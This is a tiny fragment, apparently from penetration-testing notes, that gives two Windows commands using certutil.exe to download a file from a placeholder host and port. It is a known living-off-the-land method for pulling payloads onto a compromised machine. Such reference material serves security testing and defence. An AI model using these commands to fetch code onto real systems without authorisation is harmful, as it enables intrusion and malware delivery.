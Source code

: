 # Cmd

    certutil.exe -f -urlcache -split 'http://<IP>:<port>/<file>'
    cmd.exe /c certutil.exe -f -urlcache -split 'http://<IP>:<port>/<file>'
